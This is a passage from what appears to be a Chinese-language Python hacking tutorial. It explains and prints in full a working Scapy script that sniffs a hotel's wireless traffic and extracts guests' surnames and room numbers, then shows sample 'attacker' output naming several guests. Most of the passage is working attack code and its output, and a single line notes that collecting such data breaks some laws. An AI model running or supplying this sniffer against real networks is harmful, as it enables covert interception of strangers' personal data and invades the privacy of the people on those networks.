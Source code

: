 当`findGuest`函数接收到数据包，它将确认拦截的数据包是否包含任何私人信息。首先它复制原始数据到变量 raw 中，然后我们建立一个正则表达式来解析姓名和客人的房间号码。注意我们的正则表达式接受任何以`LAST_NAME`开始的字符串，和一个终止符号`&`。正则表达式为了酒店号码捕获任何以`ROOM_NUMBER`开头的字符串。

```
def findGuest(pkt):
    raw = pkt.sprintf("%Raw.load%")
    name=re.findall("(?i)LAST_NAME=(.*)&amp;",raw)
    room=re.findall("(?i)ROOM_NUMBER=(.*)'",raw)
    if name:
        print("[+] Found Hotel Guest "+str(name[0]) + ", Room #" + str(room[0])) 
```

将所有的放在一起，我们现在有一个无线网络嗅探器捕获任何连接到这个酒店无线网络上的客户的姓名和房间号。请注意，为了有嗅探流量和分析数据包的能力，我们需要导入`Scapy`库。

```
# coding=UTF-8
import optparse
from scapy.all import *

def findGuest(pkt):
    raw = pkt.sprintf("%Raw.load%")
    name=re.findall("(?i)LAST_NAME=(.*)&amp;",raw)
    room=re.findall("(?i)ROOM_NUMBER=(.*)'",raw)
    if name:
        print("[+] Found Hotel Guest "+str(name[0]) + ", Room #" + str(room[0]))

def main():
    parser = optparse.OptionParser('usage %prog -i<interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
        print(parser.usage)
        exit(0)
    else:
        conf.iface = options.interface
    try:
        print('[*] Starting Hotel Guest Sniffer.')
        sniff(filter='tcp', prn=findGuest, store=0)
    except KeyboardInterrupt:
        exit(0)
if __name__ == '__main__':
    main() 
```

运行我们的酒店嗅探程序，我们可以看到黑客是怎样确认酒店住了那些人的。

```
attacker# python hotelSniff.py -i wlan0
[*] Starting Hotel Guest Sniffer.
[+] Found Hotel Guest MOORE, Room #1337
[+] Found Hotel Guest VASKOVICH, Room #1984
[+] Found Hotel Guest BAGGETT, Room #43434343 
```

我应该有足够的强调，收集个人信息已经违反了一些州，国家的法律。在下一节，我们将进一步扩大我们嗅探无线网络的能力，通过解析 Google 搜索。
